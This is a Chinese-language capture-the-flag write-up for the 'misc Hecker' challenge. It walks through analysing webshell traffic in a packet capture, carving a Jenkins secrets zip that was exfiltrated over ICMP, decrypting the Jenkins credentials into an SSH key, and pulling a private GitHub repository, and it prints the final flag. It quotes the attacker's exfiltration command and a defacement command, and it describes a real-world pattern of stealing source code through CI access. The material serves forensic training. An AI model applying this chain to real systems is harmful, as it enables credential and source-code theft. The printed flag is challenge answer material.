# misc Hecker

[TOC]

## Main Route for CTFer




## 需要工具

Wireshark - 用于分析流量包

Jenkins cred 解密工具 - 用于取出 sshkey

## 详细步骤

首先你会先拿到一个 wireshark 抓包的结果



经过简单的查看整个过程的流量可以发现以下几点

- 这里包含了 HTTP TCP ICMP
- ICMP id 为 0x0082 的请求一直 "污染" 着整个网络通讯

简单的进行 过滤一下 发现



可以发现 有 webshell 类的交互

运行的命令有 

- ls -al
- python3 main.py
- python3 main.py 172.17.0.1 jenkins_secret.zip
- echo HACKED  BY 99BIE > readme.txt
- cat readme.txt



核心需要关注的 是这几条记录 可以发现 

backdoor 这里加入了 jenkins_secret.zip 之后 response 和 request 间隔的时间远远大于 其他的通讯的 request 和 response

观察其请求 可以发现 通讯信息就是简简单单的 base64 encode 而已



```
STDERR: VHJhY2ViYWNrIChtb3N0IHJlY2VudCBjYWxsIGxhc3QpOgogIEZpbGUgIi9zZXJ2ZXIvbWFpbi5weSIsIGxpbmUgMTkzLCBpbiA8bW9kdWxlPgogICAgcGluZyhzeXMuYXJndlsxXSwgc3lzLmFyZ3ZbMl0pCkluZGV4RXJyb3I6IGxpc3QgaW5kZXggb3V0IG9mIHJhbmdlCg==
STDOUT: VXNhZ2U6IG1haW4ucHkge2lwfSB7c2VuZGZpbGV9ClVzYWdlOiBtYWluLnB5IHtpcH0ge3NlbmRmaWxlfSB7cmF0ZWxpbWl0IChzZWNvbmQpfQo=
```



然后顺势解密其他的 流量信息

还有 ping 这里有一处信息之后用到 先记录一下



可以看到 `Esonhugh @github` 和 ` Esonhugh/secret_source_code` 等字样


既然发现时间有问题 那么 回去看看这个操作之间经过了什么东西 对这条流量进行 mark

发现 有很多的 icmp 流量发送出来



有一个 ident 为 0x0087 开始的全新 ICMP 流量段出现



并且 ident=0x0087 的 ICMP 结束之后 2s 我们 收到了 HTTP response ok

看 webshell 可以发现 应该是发送了一个 zip 包回来 



细看 PK 头 还有 压缩包内的内容

很好 现在就只要把他 过滤出来就可以了

```icmp.ident==0x0087 && icmp.resp_in ```

这里用的是 这条 也可以是 resp_to 避免 icmp request 和 response 的重复

结果导出



保存为 icmp.data.json

```
cat icmp.data.json|grep data.data|cut -d "\"" -f 4
```

现在就可以看到全部的 data 信息了

比如这个第一段

```
41:d8:8d:14:43:56:6c:ad:ee:55:00:4e:de:ad:be:ef:50:4b:03:04:0a:00:00:00:00:00:d2:b2:71:54:00:00:00:00
```

看看开头 可以发现重复部分



`41:d8:8d:14:43:56:6c:ad:ee:55:00:4e:de:ad:be:ef`

这里有可能是 d6 d7 有几个位数会发生变化 但是没关系这其实是 checksum deadbeef 这里还是可以切除的

进行一个去除

这时候留意下结尾看看是不是也有相关的内容



不出意外确实也有

`:13:37:13:37:11:33:33:77`

进行第二个去除

直接替换为 空就可以了

现在可以看到我们应该只剩下了 压缩包最中间的部分

再把 : 替换为 \x 的样子 就可以进行转义了

> vim 块编辑 可以快速搞定 Ctrl+v 然后选中 开头结尾就可以了

```
cat process1|sed -e "s/:/\\\\x/g" > process2 # 将: 转换为 \x 
print "`cat process2`" > data.zip # 拿到原先的 文件 jenkins_secret.zip
```

这样我们就取出了  这个 zip

解压缩 

获取到 jenkins_secret 文件夹

看到 cred 和 secerts 文件夹 那么很简单了 

直接 jenkins cred 解密就完事





这里我贴了一个 hint 不过 没有加什么 hint 上去

这里我们拿下一个 ssh key

那么这条线索也就利用完了

还记得之前记一下的那个 地方吗

直接将 SSH key 保存

然后 让 ssh-agent 进行一手代理

> 最近 github 有点点问题 可能拉起来有一些不对劲
>
> 但是 放心 是拉的下来的

`Esonhugh @github` 和 ` Esonhugh/secret_source_code`



简单的看一下 log 和 branch 能够发现



flag 就存放在 upload source code 1 这里

而不是 flag (读取 flag 的两个分支 会得到 never gonna give you up)





flag 就在最底下 (你们还是被骗了 Doge)

如果有可视化的 git 工具

或者直接 jetbrains IDE 打开



检查一下历史变更就可以了



flag `DASCTF{Oh!_H4ck_f0r_c0d3s-and_4buse_1t}`


## 实战意义

出题目的过程其实是来源于我经历的一次渗透

日穿服务器之后信息收集 偷取源码或者go web binary

看到 Jenkins 和 CICD 之后 滥用它的 git 来获取源码与信息

可能看 banner 没有 人能看出来什么 这一部需要更多的联想 但是我已经给出了  `@github` 字样的提示 理论上也不是很难

